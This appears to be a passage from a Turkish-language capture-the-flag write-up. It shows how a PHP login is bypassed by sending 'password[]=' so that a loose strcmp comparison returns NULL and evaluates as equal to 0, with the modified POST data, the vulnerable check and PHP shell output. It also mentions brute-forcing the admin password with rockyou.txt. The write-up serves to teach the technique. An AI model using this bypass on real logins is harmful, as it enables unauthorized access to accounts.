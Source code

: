 
### /department Type Confusion

Admin kullanıcı adını zaten tespit edebildiğim için, burada da parolayı brute-force ile kırmayı deneyebilirim (ve yeterince büyük bir liste, örneğin _rockyou.txt_ kullanarak başarılı olabilirim). Ancak bunu yapmadan önce, PHP tür karmaşası (_type juggling_) hatası olup olmadığını kontrol etmek için parola alanına bir dizi (_array_) gönderdim.

Firefox üzerinden formu gönderdiğimde, Burp POST verisini şu şekilde gösterdi:

```
username=admin&password=admin
```

Eğer bunu şöyle değiştirirsem:

![Pasted image 20250207220143.png](/img/user/Pasted%20image%2020250207220143.png)

```
username=admin&password[]=
```

Beni içeri alıyor:

![Pasted image 20250207220344.png](/img/user/Pasted%20image%2020250207220344.png)

Bu neden işe yarıyor? PHP farklı veri türlerini karşılaştırma konusunda cömerttir. Dolayısıyla, PHP bir veritabanından alınan (veya burada olduğu gibi sabit kodlanmış) bir parola ile kullanıcı girdisini bir string karşılaştırması yapıyorsa, bu aşağıdaki gibi görünebilir:

```
if(strcmp($_REQUEST['password'], $password) == 0)
```

strcmp, etkileşimli bir PHP terminalinde görebildiğim gibi (==php -a=='yı çalıştırın) iki stringin farklı olduğu yeri döndürür:

```
php > strcmp("admin", "0xdf");
php > echo strcmp("admin", "0xdf");
1
php > echo strcmp("admin", "admin0xdf");
-4
php > echo strcmp("admin", "admin");
0
```


Stringlerden biri olarak bir array geçersem PHP başarısız olur:

```
php > echo strcmp(array(), "admin");
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
```

Ancak, aslında bir NULL döndürür ve bu NULL daha sonra 0 ile karşılaştırılırsa doğru olarak değerlendirilir:

```
php > if (strcmp(array(), "admin") == 0) { echo "oops"; }
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
oops
```
